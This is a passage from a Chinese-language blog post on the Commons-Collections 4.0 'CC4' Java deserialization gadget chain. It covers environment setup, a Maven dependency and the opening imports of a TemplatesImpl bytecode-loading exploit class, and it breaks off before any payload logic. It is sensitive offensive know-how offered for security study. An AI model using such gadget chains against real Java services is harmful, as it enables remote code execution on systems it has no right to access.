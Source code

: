 ```yaml
---
title: Commons-Collections篇05-CC4链
date: 2025-9-28 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 环境搭建

- [JDK8u65](https://www.oracle.com/cn/java/technologies/javase/javase8-archive-downloads.html)
- [openJDK 8u65](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/af660750b2f4)
- Maven 3.6.3
- Commons-Collections 4.0
- pom.xml加载Commons-Collections 依赖

```xml
<dependency>  
 <groupId>org.apache.commons</groupId>  
 <artifactId>commons-collections4</artifactId>  
 <version>4.0</version>  
</dependency>
```



## 调用链

![image-20250929135851889](Commons-Collections%E7%AF%8705-CC4%E9%93%BE/image-20250929135851889.png)

### Templateslmpl加载字节码

先写出Templateslmpl动态加载字节码的链子

```java
package org.example;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;

```